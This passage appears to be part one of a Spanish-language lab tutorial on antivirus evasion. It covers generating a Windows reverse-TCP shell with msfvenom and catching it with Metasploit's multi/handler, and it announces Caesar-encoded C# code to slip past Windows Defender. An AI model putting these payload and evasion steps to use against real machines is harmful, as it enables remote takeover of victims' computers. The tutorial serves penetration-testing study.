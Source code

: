 ```yaml
---
icon: virus-covid-slash
---
```


# Evasión de antivirus con C - Parte 1

En este caso vamos a utilizar `kali` como nuestra maquina de atacante, pero tambien vamos a utilizar el `Windows` que instalamos para el `Active Directory` en concreto la maquina `WS01` como nuestra maquina atacante tambien, para poder realizar el codigo en `C#` con nuestro `Visual Studio`, por lo que tendremos `2` maquinas atacantes, para ello tendremos que desactivar el `Windows Defender` en la maquina de `WS01` ya que es nuestra maquina atacante.

Pero la maquina de `Windows` en concreto la `WS02` actuara como la maquina victima en este caso, para poder realizar las pruebas de evasion de `antivirus`.

Estas tecnicas que vamos a ver no solo sirve para evadir antivirus de `Windows Defender`, tambien sirve para casi cualquier antivirus que se tenga en un equipo.

Vamos a crear un `malware` con `msfvenom` que posiblemente sea el binario mas detectado para casi cualquier antivirus ya que lo genera la herramienta `msfvenom` y con este podremos ver como evadir esa seguridad.

```shell
msfvenom --platform windows -p windows/shell/reverse_tcp LHOST=192.168.5.205 LPORT=7777 -f exe > shell.exe
```

Y en otra terminal, vamos a estar a la escucha mediante `metasploit`:

```shell
msfconsole -q
```

Despues seleccionamos la escucha:

```shell
use multi/handler
```

Ahora lo configuramos de la siguiente forma:

```shell
set payload windows/shell/reverse_tcp
set LHOST 192.168.5.205
set LPORT 7777
run
```

Ahora si nos pasamos el binario que hemos generado al equipo `WS02` directamente nos va a saltar el antivirus y nos lo va a eliminar automaticamente.

Para poder evadir estas medidas lo que vamos hacer es realizar todo esto en codigo `cesar` para que asi le cueste mas a los antivirus de detectar ese codigo malicioso, vamos a irnos a la maquina `WS01` y vamos abrir `Visual Studio 2022` el cual ya tendremos instalado de cuando tuvimos que compilar el binario de `Rubeus`.
